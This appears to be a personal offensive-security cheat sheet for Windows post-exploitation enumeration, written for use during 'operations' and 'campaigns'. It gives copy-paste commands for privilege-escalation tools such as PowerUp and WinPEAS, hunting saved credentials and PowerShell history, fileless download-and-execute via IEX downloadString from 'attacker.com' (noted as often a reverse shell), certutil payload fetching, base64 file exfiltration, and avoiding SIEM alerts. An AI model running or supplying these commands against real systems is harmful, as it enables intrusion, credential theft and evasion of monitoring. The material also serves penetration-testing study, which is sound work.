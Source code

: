 # win_enumeration

This page serves as a reference to be used during operations. Included items are:

- checklists/skeletons of common enumerations loops
- prepared statements, ready for copy paste
- legacy reference notes, useful for writing and for when other methods have been exhausted

## default enumeration activity 

> Noisy,  lab use only. Campaigns should be planned, only necessary commands should touch the target

### checklist

1. `systeminfo`
	1. we care about the most recent patch and build numbers
	2. in particular note the KB hotfix number
3. `powershell -c 'dir env:'`
	1. userinfo 
	2. env vars
4. Execute the following in order, parse the ouput carefully.
	1. `PowerUp.ps1`
	2. `SharpUp.exe`
	3. `WinPeasANY.exe`
5. manual enumeration
	1. focus on human activity
	2. scripts, notes, custom applications
	3. passwords written where they should not be
	4. review the ouput of enumeration scripts, they commonly miss the following
		1. `cmdkey /list`
		2. scheduled tasks
		3. startup apps
		4. access control permissions on registry services
		5. Saved credentials in tools such as `PuTTY`
		6. credentials saved in registry keys


### prepared statements

```cmd
systeminfo
```

The following should be executed in a powershell context

```powershell
Get-Content $env:windir\System32\Drivers\etc\hosts
```

```powershell
Get-Content $env:appdata\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```



## powershell

> initial enumerations
```powershell
get-localuser		# lists users
get-localgroup		# lists groups
get-childitem -recurse -Depth 1		# nice way to get "tree" output
get-acl FILENAME    # shows owner+other stuff on directory/object pointed at
Get-Service | Where-Object -Property Status -eq Running # running services	 
```

> serving files
```
all cmd commands should work
also `wget` is a common alias which creates the `Invoke-WebRequest` powershell equivalent
```

> find command
```powershell
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
# https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem; albeit with a lot of terminal noise
```powershell
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```

### exfiltration through the screen

Provided file size is small enough, set a variable `$path = "C:\Path\To\file"` then put the following prepared statement into the shell

```powershell
$b64 = (Get-Content -Path $path -Encoding byte); [convert]::ToBase64String($b64)
```

Note that the resulting b64 is in `utf-16le` and should be converted with the `iconv` utility before further usage. 


### using common scripts

#### execution without touching disk

1. host the `script.ps1` 
2. edit the `script.ps1` file to call w.e. function you want by placing the function call, including arguments, at the end of this file. This is often the reverse shell.
3. use `IEX(new-object net.webClient).downloadString('http://attacker.com/script.ps1')` 


#### execution with touching disk 

> `PowerUp.ps1` is used as an example

```powershell
-ep bypass
import-module powerup.ps1 # or w.e u named it
invoke-allchecks          # this is a method defined in powerup.ps1
```


## legacy reference  - first attempts at learning enumeration

Flailing about. This section holds notes created when first studying Windows Enumeration. It is disorganized and ineffective for operations. Leaving it here to demonstrate growth and as reference for writing. Not likely to be referenced during campaigns. 

bullet points

- `C:/windows/tasks`     -   is a common (ALL) READ/WRITE directory
- winPEAS exists
- seatbelt exists
- `find` command exists, does it ? YES
- `cacls FILENAME`  access control lists; deprecated but sometimes has info



### notable files

> etc hosts
```
c:\Windows\System32\Drivers\etc\hosts
```

> powershell history
```
C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```


### the classics
```cmd.exe
systeminfo

wmic qfe get Caption, Description
; installed updates, hotfixes etc

net start
; started and installed services

wmic product get name,version,vendor
; installed apps

whoami /all  # (includes, /privs and /groups)
net user, net user /domain
net localgroup, net localgroup  GROUPNAME

net account, net accounts /domain  
; Get password policy info, among other stuff

```
> note that most of these are alarmed by the SIEM, especially those which enumerate the domain. powershell equivalents might be the way to go?


### network
> ports in use; all, binary(name of exe), no-resolve numbers, PID
```
netstat /?
netstat -abno
# -b is the valuable flag here, resolves binary name
```

> network interfaces, is this multi-homed?
```
ipconfig
```

> discover peers via pingsweep
```
PINGSWEEP SCRIPT, or manually
ping -a the results
```

> discovery peers, alternative to pingsweep, MAY BE ALARMED
```
arp -a
```

> host file, may reveal information
```
c:\Windows\System32\Drivers\etc\hosts
```


### cmd

> when enumerating through RCE; particularly useful for pulling/serving with certutil
```
cmd.exe /C 																			; executes a command in cmd.exe, similar to powershell -c
cmd.exe /C certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 	; example of serving
```


> basic enumerations; drop these commands when you initially land
```sh
powershell> dir env: 								; list env vars for current user; excellent info here
whoami /all  (or /priv)
systeminfo
type C:\Users\USER_NAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> serving files 
```sh
certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 				; may not needs -split
```




